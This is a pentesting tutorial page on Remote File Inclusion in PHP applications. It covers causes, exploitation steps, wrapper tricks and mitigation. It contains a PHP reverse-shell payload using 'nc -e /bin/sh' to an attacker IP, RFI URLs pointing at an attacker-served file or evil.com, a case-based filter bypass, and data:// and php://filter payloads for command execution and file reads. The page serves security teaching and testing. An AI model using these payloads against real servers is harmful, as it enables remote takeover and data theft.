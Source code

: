 ```yaml
---
title: RFI attack - Remote File Inclusion
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - pentesting
  - web pentesting
---
```

# RFI attack - Remote File Inclusion

??? quote "OWASP"
	[OWASP Web Security Testing Guide 4.2](../OWASP/index.md) > 5. Authorization Testing > 5.1. Testing Directory Traversal File Include

	|ID|Link to Hackinglife|Link to OWASP|Description|
	|:---|:---|:---|:---|
	|5.1|[WSTG-ATHZ-01](../OWASP/WSTG-ATHZ-01.md)|[Testing Directory Traversal File Include](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/05-Authorization_Testing/01-Testing_Directory_Traversal_File_Include)|- Identify injection points that pertain to path traversal.  - Assess bypassing techniques and identify the extent of path traversal (dot-dot-slash attack, Local/Remote file inclusion)|


A Remote File Inclusion (RFI) vulnerability is a type of security flaw found in web applications that allow an attacker to include and execute remote files on a web server. This vulnerability arises due to improper handling of user-supplied input within the context of file inclusion operations. This vulnerability can have severe consequences, including unauthorized access, data theft, and even full compromise of the affected server.

## Causes

- Insufficient Input Validation: The web application may not validate or filter user input, allowing attackers to inject malicious data.  
- *Lack of Proper Sanitization*: Even if input is validated, the application may not adequately sanitize the input before using it in file inclusion operations.
- *Using User Input in File Paths*: Applications that dynamically include files based on user input are at high risk if they don't carefully validate and control that input.
- *Failure to Implement Security Controls*: Developers might overlook security best practices, such as setting proper file permissions or using security mechanisms like web application firewalls (WAFs).

## How to exploit it?

Identify Vulnerable Input: The attacker identifies a web application that accepts user input and uses it in a file inclusion operation, typically in the form of a URL parameter or a POST request parameter. 

Inject Malicious Payload: The attacker injects a malicious file path or URL into the vulnerable parameter. For example, they might replace a legitimate parameter like ?page=about.php with ?page=http://evil.com/malicious_script.

Server Executes Malicious Code: When the web application processes the attacker's input, it dynamically includes the remote file or URL. This can lead to remote code execution on the web server, as the malicious code in the included file is executed in the server's context.

## php 

In php.ini file there are some parameters that define this policy:

+ allow_url_fopen
+ allow_url_include

If these functions are enabled (set to ON), then a [LFI](local-file-inclusion-lfi.md) can turned into a Remote File Inclusion. 

**1.** Create a php file with the remote shell

```bash
nano reverse.txt
```

**2.**  In that php file, craft malicious code

```php
<?php
passthru("nc -e /bin/sh <attacker IP> <attacker port>") 
php ?>

```
**3.** Serve that file from you machine (http_serve).

**4.** Get your machine listening in a port with netcat.

**5.** In the injection point from where you can make a call to a URL, serve your file. For instance:

```
https:\\VICTIMurlADDRESS/PATH/PATH/page=http://<attackerip>/reverse.txt

# Sometimes to get php executed on the victim machin (and not the attacker), add an ?
https:\\VICTIMurlADDRESS/PATH/PATH/page=http://<attackerip>/reverse.txt?
```

Sometimes there might be some filtering for the payload (which was: 

```
http://<attackerip>/reverse.txt?). 
````

To bypass it:

```
# using uppercase
https:\\VICTIMurlADDRESS/PATH/PATH/page=hTTP://<attackerip>/reverse.txt

# Other bypassing techniques for slashes
```

## Wrappers

### PHP wrapper

php://filter : allow the attacker to include local file and base64 encode as the output:

```
http://IPdomain/rfi.php?language=php://filter/convert.base64-encode/resource=recurso.php
```

PHP filter without base64 encode:

```
php://filter/resource=flag.txt
```


### DATA wrapper

```
http://IPdomain/rfi.php?language=data://text/plain,<?php system('$_GET("cmd")');?>&cmd=whoami
```

### HTTP wrapper

```
http://IPdomain/rfi.php?language=http://SERVERIP/shell.php
```

## Mitigation

In php.ini disallow:

+ allow_url_fopen
+ allow_url_include

User static file inclusion (instead of dynamic file inclusion) by harcoding the files you want to include and not get them using GET or POST methods. 


## Tools and payloads 

- See updated chart: [Attacks and tools for web pentesting](../OWASP/index.md).
